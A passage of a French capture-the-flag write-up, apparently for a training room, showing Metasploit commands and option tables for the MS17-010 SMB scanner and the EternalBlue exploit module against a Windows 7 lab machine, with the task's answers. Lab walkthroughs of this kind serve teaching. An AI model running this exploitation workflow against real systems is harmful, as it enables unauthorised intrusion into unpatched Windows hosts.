 ```
   NAMED_PIPES  /usr/share/metasploit-framework/data/wordlists/named_pipes.txt  yes       List of named pipes to check
   RHOSTS                                                                       yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT        445                                                             yes       The SMB service port (TCP)
   SMBDomain    .                                                               no        The Windows domain to use for authentication
   SMBPass                                                                      no        The password for the specified username
   SMBUser                                                                      no        The username to authenticate as
   THREADS      1                                                               yes       The number of concurrent threads (max one per host)
```
La seule option opbligatoire et sans valeur par défaut est `RHOSTS`.


```
msf5 auxiliary(scanner/smb/smb_ms17_010) > set RHOSTS 10.10.
```

```
msf5 auxiliary(scanner/smb/smb_ms17_010) > run
```

```
msf5 auxiliary(scanner/smb/smb_ms17_010) > back
```

Le scan nmap initial nous indique que la machine tourne sous Windows 7 donc on va utiliser le 1ier module exploit

> Réponse: **exploit/windows/smb/ms17_010_eternalblue**


## #3 Show options and set the one required value. What is the name of this value? (All caps for submission)

[optionnel] scan de la vulnerabilité

```
msf5 > use exploit/windows/smb/ms17_010_eternalblue
```

```
msf5 exploit(windows/smb/ms17_010_eternalblue) > options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT          445              yes       The target port (TCP)
   SMBDomain      .                no        (Optional) The Windows domain to use for authentication
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.


Exploit target:

   Id  Name
   --  ----
   0   Windows 7 and Server 2008 R2 (x64) All Service Packs
```